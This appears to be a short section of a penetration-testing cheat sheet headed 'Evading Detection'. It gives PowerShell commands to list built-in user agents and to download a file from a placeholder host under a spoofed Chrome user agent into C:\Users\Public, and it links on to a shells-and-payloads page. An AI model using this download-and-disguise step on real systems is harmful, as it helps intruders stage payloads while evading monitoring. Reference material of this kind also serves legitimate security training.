<summary><h1>👻 Evading Detection</h1></summary>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>Changing User Agent</h2></summary>

**Listing out User Agents**

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Request with Chrome User Agent**
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://<IP>/<FILE> -UserAgent $UserAgent -OutFile "C:\Users\Public\<OUTPUT FILE>"
```

</details>
</details>

---

📘 **Next step:** Continue with [SHELLS & PAYLOADS](./05-shells-payloads.md)
